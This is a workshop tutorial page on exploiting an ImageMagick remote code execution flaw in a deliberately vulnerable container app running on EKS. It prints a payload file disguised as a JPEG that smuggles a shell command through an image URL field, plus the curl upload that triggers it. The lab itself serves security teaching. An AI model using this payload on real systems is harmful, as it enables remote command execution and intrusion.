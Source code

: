 +++
title = "Step 4: Exploit a Container Vulnerability"
chapter = false
weight = 21
+++

## Exploit a Container Vulnerability

Putting an application into a container does not automatically make it secure. To demonstrate the risks of a vulnerable component introduced by our container base image, we will exploit a vulnerability in the ImageMagick package present in one of the pods of our running application on EKS.

## Check the application container's home directory

### List the current files in the container's home directory

First we will get a file directory listing for the container running in that pod by executing the following command:
```bash
kubectl exec -it $(kubectl get pod -l app=goof,tier=frontend -o name) -- ls 
```

You should see the file listing of the goof-image container's home directory as follows:
```bash
CODEOWNERS  README.md  node_modules	  package.json	server.js
Dockerfile  exploits   package-lock.json  public	uploads
```

## Exploit a remote code execution vulnerability

In your Cloud9 terminal run the following:
```bash
cat image-app/exploits/rce1.jpg
```

Even though that file has a `.jpg` extension in it's name, it is actually a script:

```text
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|touch "rce1)'
pop graphic-context
```
Take special notice to the `"|touch "rce1` part of the next-to-last line.

Now, run the following:
```bash
curl -F ‘twitter_picture=@rce1.jpg’ http://GOOF_IMAGE_LB:3112/upload/
```

All we see coming back is this:
```
Found. Redirecting to /public/result.html
```

But let's check the container's filesystem again:
```bash
kubectl exec -it $(kubectl get pod -l app=goof,tier=frontend -o name) -- ls 
```

```bash
CODEOWNERS  README.md  node_modules	  package.json	rce1	   uploads
Dockerfile  exploits   package-lock.json  public	server.js
```
Now we see an additional `rce1` file has been created!

## The impact of this vulnerability
The creation of an empty file may not seem that severe but realize that any command availabile in that container could be used in place of the `touch` command used here.  This includes things like `wget`, `curl` and `apt-get`.  It would not be hard to craft an exploit that pulls a shell script from an internet site and runs whatever is in it, giving the hacker a beachhead in your cluster to operate from.

Continue to the next step to learn how to identify these, and other, vulnerabilities in your container images that are introduced by your container base image.

